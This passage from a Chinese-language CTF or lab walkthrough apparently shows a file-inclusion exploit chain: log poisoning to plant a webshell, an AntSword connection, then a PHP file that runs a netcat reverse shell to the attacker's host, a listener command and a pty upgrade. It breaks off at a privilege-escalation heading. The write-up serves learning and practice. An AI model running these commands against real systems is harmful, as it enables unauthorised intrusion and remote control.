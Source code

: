   
然后thankyou.php应该是包含了footer.php页面  
尝试文件包含读取thankyou.php文件和其他文件，发现能够成功读取

![upload successful](https://lnng.top/images/pasted-204.png)

**upload successful**

  

![upload successful](https://lnng.top/images/pasted-203.png)

**upload successful**

  
尝试写入文件进行文件包含，能写入的文件像中间件日志文件，ssh登录的日志文件，临时文件等等  
参考之前的文件包含[https://lnng.top/posts/6b68.html](https://lnng.top/posts/6b68.html)  
这个还是尝试包含中间件的日志文件吧，因为ssh的登录端口不知，且其他的方法不好利用  
随便访问一个木马  

![upload successful](https://lnng.top/images/pasted-205.png)

**upload successful**

  
蚁剑连接发现连接成功  

![upload successful](https://lnng.top/images/pasted-206.png)

**upload successful**

### [](https://lnng.top/posts/2ea3.html#%E5%8F%8D%E5%BC%B9%E4%BA%A4%E4%BA%92shell "反弹交互shell")反弹交互shell

在/var/tmp/下新建phpshell文件，写入

```
<?php
system("nc 192.168.124.139 4444 -e /bin/sh");
?>
```

kali端

```
nc -l -p 4444
```

反弹shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![upload successful](https://lnng.top/images/pasted-207.png)

**upload successful**

### [](https://lnng.top/posts/2ea3.html#%E6%8F%90%E6%9D%83-1 "提权")提权
